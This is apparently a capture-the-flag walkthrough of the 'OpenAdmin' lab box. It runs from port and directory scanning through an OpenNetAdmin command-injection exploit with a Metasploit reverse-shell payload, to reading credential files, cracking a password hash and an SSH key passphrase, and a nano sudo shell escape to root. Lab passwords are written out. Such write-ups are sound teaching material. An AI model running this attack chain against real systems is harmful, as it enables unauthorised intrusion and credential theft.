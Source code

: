 # OpenAdmin Walkthrough
Date: 2024-09-02

## Service Enumeration
### Initial Scan
I started by running an nmap full port scan:

```bash
nmap -p- $(cat target) -v -oN full_scan_ports
```

The scan revealed two open ports: `22` (SSH) and `80` (HTTP).

Next, I ran a more detailed scan on the specific ports:

```bash
nmap -T4 -p 22,80 -A -oN specific_ports -oX specific_ports.xml -v $(cat target)
```

Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 (Ubuntu)
```

SSH is running on version `OpenSSH 7.6p1`.
HTTP is hosted on Apache 2.4.29.
The target OS is identified as Ubuntu. Now let's dive deeper into port `80`.

***

## Web Enumeration
I visited the IP in a browser and saw the default Apache page. To further enumerate, I ran a directory brute force scan using ffuf:

```bash
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u "http://openadmin.htb/FUZZ" -e .php,.html
```

Discovered Directories:

* `/music/`
* `/artwork/`
* `/sierra/`

Inside `/music/`, I found a link to another directory: `/ona`, which led to OpenNetAdmin.

![ona](https://github.com/user-attachments/assets/dd548014-ff97-4463-ac08-ccc13920eaa1)

***

## OpenNetAdmin Exploitation
OpenNetAdmin Version: 18.1.1

The default credentials (`admin:admin`) worked. This version of OpenNetAdmin is vulnerable to **RCE** (Remote Code Execution).

I confirmed the vulnerability using searchsploit:

```bash
searchsploit OpenNetAdmin 18.1.1
```

I opted to exploit the vulnerability using Metasploit with the module: `exploit/unix/webapp/opennetadmin_ping_cmd_injection` and payload: `linux/x64/meterpreter/reverse_tcp`.

### Resources

* [OpenNetAdmin 18.1.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47691)

***

## User Flag
### Local Enumeration
I gained a meterpreter shell and listed users by reading the `/etc/passwd` file:

```
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

I also found MySQL credentials in the OpenNetAdmin configuration file:

```bash
cat /opt/ona/www/local/config/database_settings.inc.php
```

MySQL User: `ona_sys`
Password: `n1nj4W4rri0R!`
The password also worked for user `jimmy`. I used `su` to switch to Jimmy’s shell:

```bash
su jimmy
```

### Further Enumeration
In `/var/www/internal`, I found three files of interest:

* `index.php`: Performs a login for user `jimmy` with a SHA-512 hashed password (successfully cracked with [CrackStation](https://crackstation.net/)).
* `main.php`: Retrieves joanna's SSH private key if logged in.
* `logout.php`: Logs out of the session.

The Apache virtual host for this web app was configured on port `52846`:

```bash
cat /etc/apache2/sites-available/internal.conf
```

I brute-forced Jimmy’s SHA-512 password using CrackStation and retrieved the password: `Revealed`.

### Retrieving Joanna's SSH Key
After logging into the internal web app, I extracted Joanna’s id_rsa SSH private key:

```bash
curl -X POST localhost:52846/index.php -d "login=login&username=jimmy&password=Revealed" -v
curl localhost:52846/main.php -H "Cookie: PHPSESSID=<session_id>" -v
```

The private key was encrypted, so I used John the Ripper to crack the passphrase:

```bash
ssh2john joanna_id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Passphrase found: `bloodninjas`.

### SSH Access
With the decrypted key, I logged in as joanna:

```bash
ssh -i joanna_id_rsa joanna@$(cat target)
```

I retrieved the user flag from joanna's home directory.

### Resources

* [Cracking SSH Private key passphrase](https://medium.com/the-padlock/cracking-ssh-private-key-passphrase-459ba17e8d5d)
* [CrackStation](https://crackstation.net/)

***

## Root Flag
### Privilege Escalation
Upon logging in as `joanna`, I checked her sudo privileges:

```bash
sudo -l
```

Joanna could run nano on the file /opt/priv without a password:

```
User joanna may run the following command on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

I used nano's built-in shell escape feature to gain root privileges. This technique is documented on GTFOBins:

```bash
Copia codice
sudo /bin/nano /opt/priv
# Inside nano, press CTRL+R, then CTRL+X, then type: sh
```

Now, with root access, I retrieved the root flag.

### Resources

* [GTFOBins](https://gtfobins.github.io/)

***

## Summary
### Key Learnings:
* Enumerating web services and exploiting web vulnerabilities (OpenNetAdmin).
* Cracking passwords (SHA-512 & SSH private key passphrase).
* Privilege escalation via sudo misconfigurations (GTFOBins).

The box was a great exercise in combining web exploitation, password cracking, and privilege escalation techniques.

*** 
